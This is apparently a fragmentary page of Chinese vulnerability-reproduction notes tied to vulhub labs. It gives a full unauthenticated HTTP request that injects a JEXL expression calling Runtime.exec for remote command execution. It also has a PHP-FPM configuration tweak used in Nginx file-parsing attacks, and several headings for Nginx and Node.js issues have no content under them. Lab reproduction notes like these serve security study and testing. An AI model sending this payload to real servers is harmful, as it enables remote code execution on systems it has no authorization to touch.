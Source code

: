 ## **[漏洞复现](http://commons.apache.org/proper/commons-jexl/)**

接口没有校验权限，所以直接发送如下数据包，即可执行`touch /tmp/success`命令：
```
POST /service/extdirect HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: */*
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 368
Connection: close

{"action":"coreui_Component","method":"previewAssets","data":[{"page":1,"start":0,"limit":50,"sort":[{"property":"name","direction":"ASC"}],"filter":
[{"property":"repositoryName","value":"*"},{"property":"expression","value":"233.class.forName('java.lang.Runtime').getRuntime().exec('touch /tmp/success')"},{"property":"type","value":"jexl"}]}],"type":"rpc","tid":8}
```

# **[文件解析漏洞总结-Nginx(CVE-2013-4547)](https://vulhub.org/#/environments/nginx/CVE-2013-4547/)**

## **[漏洞分析](https://blog.werner.wiki/file-resolution-vulnerability-nginx/)**


我的测试环境中，该文件位于`/etc/php5/fpm/php-fpm.conf`。修改该文件中的“security.limit_extensions”，添加上.jpg，添加后如下所示：

```
  security.limit_extensions = .php .jpg
```

这样，php便认为.jpg也是合法的php文件后缀了，


# **[Nginx 解析漏洞复现](https://vulhub.org/#/environments/nginx/nginx_parsing_vulnerability/)**

# **[Nginx 解析漏洞复现](https://vulhub.org/#/environments/nginx/nginx_parsing_vulnerability/)**


# **[Node.js 目录穿越漏洞（CVE-2017-14849）](https://vulhub.org/#/environments/node/CVE-2017-14849/)**

## **[漏洞复现]()**

